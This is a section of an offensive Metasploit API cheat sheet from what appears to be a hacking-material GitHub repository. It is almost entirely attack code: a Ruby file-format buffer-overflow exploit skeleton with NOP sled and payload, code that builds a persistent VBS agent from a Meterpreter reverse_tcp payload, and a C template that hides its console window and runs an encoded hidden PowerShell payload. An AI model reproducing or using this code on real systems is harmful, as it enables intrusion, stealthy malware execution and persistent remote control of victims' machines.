 #### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit-API/my-API-Cheat-sheet.md#metasploit-api-cheat-sheet)

---

<br /><br /><br />

## WRITING EXPLOITS

- **This is my imaginary exploit in ruby**

      include Msf::Exploit::FILEFORMAT
      buf = ""
      buf << "A" * 1024
      buf << [0x40201f01].pack("V")
      buf << "\x90" * 10
      buf << payload.encoded
      file_create(buf)

- **build vbs script**

      print_status("Creating a persistent agent: LHOST=#{rhost} LPORT=#{rport} (interval=#{delay} onboot=#{install})")
      pay = client.framework.payloads.create("windows/meterpreter/reverse_tcp")
      pay.datastore['LHOST'] = rhost
      pay.datastore['LPORT'] = rport
      raw  = pay.generate
      vbs = ::Msf::Util::EXE.to_win32pe_vbs(client.framework, raw, {:persist => true, :delay => 5})
      print_status("Persistent agent script is #{vbs.length} bytes long")

- **BUILD C template**

```
      exeTEMPLATE = %{
        #include <stdio.h>
        #include <windows.h>
          int shellCode(){
	    system("color 63");
	    system("powershell -nop -win Hidden -noni -enc #{powershell_encoded}"); 
	  /*
            ((Shell Code into the console))
	  */
	return 0;
        }

      void hide(){
	HWND stealth;
	AllocConsole();
	stealth = FindWindowA("ConsoleWindowClass",NULL);
	ShowWindow (stealth,0);
      }

      int main(){
	hide();
	shellCode();
	return 0;
        }
      },

      # write C template to a file
      file_temp = File.new("temp.c", "w")
      file_temp.write(exeTEMPLATE)
      file_temp.close
```
